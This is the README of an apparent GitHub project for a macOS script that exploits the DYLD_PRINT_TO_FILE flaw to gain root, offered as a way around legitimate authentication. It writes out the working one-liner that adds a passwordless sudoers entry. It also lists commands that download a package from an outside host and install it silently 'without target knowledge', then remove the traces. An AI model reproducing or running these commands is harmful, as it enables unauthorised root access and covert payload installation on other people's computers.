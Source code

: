 # Peter Piper Documentation #

__1. INTRODUCTION__
<br>
This script was made as an alternative to legitimate authentication in Applescript. This script uses a method of exploitation in OS X  called root piping.

<br>

__2. EXPLOIT__
<br>
This exploit uses a vulnerability that was properly fixed in OS X 10.10.5. It’s reference information is [here](https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html).
This exploit gives whatever user that executes it admin instantly.

<br>

__3. INSTALL__
<br>
We use `cURL` to get the Java 8 Update 60 package onto the target computer and into a temporary directory, then the `installer` command featured in the OS X command line to install the .pkg we fetched. This is the correct command for this particular task because it skips the graphical installer meaning it can run behind the scenes without target knowledge.

<br>

__4. CLEANUP__
<br>
We first remove the temporary directory used to store the Java package during install, then we use the command `sed` to remove the target from the sudoers list.

<br>

__5. `function KeepSafe { }` & `trap`__
<br>
This is used to ensure the completion of the command if it fails.

<br>

<br>

## IN-DEPTH LOOK AT `function KeepSafe { }` COMMANDS ##

`echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;` ___- Exploit the machine___
<br>
`sudo bash -c ` ___- Create a root bash shell___
<br>
`if [[ $EUID -ne 0 ]]; then echo -e "\033[1mFailed! No root!\033[0m $(exit 1);"` ___- Check if the exploit actually worked, if not, exit the script___
<br>
`sudo mkdir -v /tmp$$;` ___- Make a temporary directory to store the package in___
<br>
`sudo curl -# http://thrifus.co/jump/j8u60.pkg > /tmp$$/j8u60.pkg;` ___- Get the package___
<br>
`sudo installer -verbose -pkg /tmp$$/j8u60.pkg -target LocalSystem;` - ___Install the package___
<br>
`sudo sed -i "" "/NOPASSWD:ALL/d" /etc/sudoers;` ___- Remove the line allowing root access without a password___
<br>
`rm -rfv /tmp$$;` ___- Remove the temporary directory___
